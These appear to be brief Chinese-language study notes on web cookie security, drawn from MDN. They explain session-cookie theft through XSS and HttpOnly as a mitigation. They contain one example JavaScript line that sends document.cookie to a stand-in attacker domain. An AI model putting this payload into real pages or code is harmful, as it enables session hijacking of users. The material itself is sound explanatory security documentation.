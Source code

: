 - 概述
	- 在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行[XSS(en-US)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)攻击。
	- 例如：
		- ```js
		  (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
		  ```
	- `HttpOnly` 类型的Cookie用于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。
-